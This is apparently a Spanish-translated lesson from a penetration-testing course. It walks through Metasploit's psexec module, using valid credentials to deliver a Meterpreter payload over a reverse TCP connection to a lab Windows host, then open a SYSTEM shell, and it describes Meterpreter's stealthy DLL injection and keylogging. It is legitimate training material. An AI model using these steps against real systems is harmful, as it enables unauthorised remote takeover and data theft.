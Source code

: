 ### **Exploies**

Automatizar cargas útiles y entrega con metasploit

```
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter >

```

Después de emitir el`exploit`Comando, el exploit se ejecuta y hay un intento de entregar la carga útil al objetivo utilizando la carga útil de Meterpreter. MetaSploit informa cada paso de este proceso, como se ve en la salida. Sabemos que esto fue exitoso porque un`stage`se envió con éxito, que estableció una sesión de shell de meterpreter (`meterpreter >`) y una sesión de shell a nivel de sistema. Tenga en cuenta que Meterpreter es una carga útil que utiliza la inyección de DLL en memoria para establecer sigilosamente un canal de comunicación entre un cuadro de ataque y un objetivo. Las credenciales y el vector de ataque adecuados pueden darnos la capacidad de cargar y descargar archivos, ejecutar comandos del sistema, ejecutar un keylogger, crear/iniciar/detener los servicios, administrar procesos y más.

En este caso, como se detalla en el[Documentación de módulo Rapid 7](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/): "Este módulo utiliza un nombre de usuario y contraseña de administrador válidos (o hash de contraseña) para ejecutar una carga útil arbitraria. Este módulo es similar a la utilidad" psexec "proporcionada por Sysinternals. Este módulo ahora puede limpiar después de sí mismo. El servicio creado por esta herramienta usa un nombre y descripción elegidos al azar".

Al igual que otros intérpretes de lenguaje de comandos (Bash, PowerShell, KSH, etc.), las sesiones de shell de meterpreter nos permiten emitir un conjunto de comandos que podemos usar para interactuar con el sistema de destino. Podemos usar el`?`Para ver una lista de comandos que podemos usar. Notaremos limitaciones con el shell meterpreter, por lo que es bueno intentar usar el`shell`Comandar para caer en un shell a nivel de sistema si necesitamos trabajar con el conjunto completo de comandos del sistema nativos de nuestro objetivo.

### **Caparazón interactivo**

Automatizar cargas útiles y entrega con metasploit

```
meterpreter > shell
Process 604 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>

```

`Now let's put our knowledge to the test with some challenge questions`.